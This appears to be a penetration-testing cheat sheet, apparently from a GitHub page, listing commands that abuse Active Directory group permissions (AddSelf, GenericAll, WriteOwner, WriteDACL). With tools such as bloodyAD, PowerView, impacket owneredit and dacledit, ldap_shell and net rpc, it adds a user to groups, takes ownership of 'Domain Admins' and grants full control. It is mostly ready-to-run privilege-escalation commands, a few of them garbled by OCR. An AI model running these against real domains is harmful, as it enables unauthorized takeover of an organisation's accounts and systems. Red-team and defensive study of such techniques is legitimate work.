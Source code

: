 # ACLs/ACEs permissions on Group

### AddSelf (Self-Membership) on Group / GenericAll/WriteProperty on Group/ WriteProperty (Self-Membership)

#### 1) Add group member

    net group "GROUP" MY_USER /add /domain

#### 2) ldeep

    ldeep ldap -u USER -p PASSWORD -d DOMAIN -s ldap://DC add_to_group "CN=USER,DC=DOMAIN" "CN=GROUP,DC=DOMAIN"

#### 3) Linux Net RPC - Samba

    net rpc group addmem "GROUP" "USER" -U domain.local/USER%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER" -p "Password@1" add groupMember "GROUP" "USER"

#### 5) Powerview

    powershell -ep bypass
    
    Import-Module .PowerView.ps1
    
    $SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
    
    $Cred = New-Object
    
    System.Management.Automation.PSCredential('domain.local\USER1', $SecPassword)
    
    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USER1' -Credential

    $Cred

#### 6) Ldap_shell

    ldap_shell domain.local/USER1:Password@1 -dc-ip DC_IP
    add_user_to_group USER1 "GROUP"

#### 7) Active Directory Module

    Get-Module -Name ActiveDirectory -ListAvailable
    Import-Module -Name ActiveDirectory
    Add-ADGroupMember -Identity 'GROUP' -Members 'USER1'

### WriteOwner on Group

WriteDACL + WriteOwner. Give yourself Generic All with: owneredit.py and dacledit.py

#### 1) impacket-owneredit

Grant our user ownership of the Domain Admins group (example)

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

Grant our user Full Control of the Domain Admins group (example)

    impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'USER1' - target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 3) Linux Net RPC - Samba

    net rpc group addmem "Domain Admins" USER1 -U domain.local/USER1%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" add groupMember "Domain Admins" "USER1"

#### 5) Powerview

Grant Ownership and Full Control

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "USER1"

#### 6) Windows Net command

    net group "domain admins" USER1 /add /domain


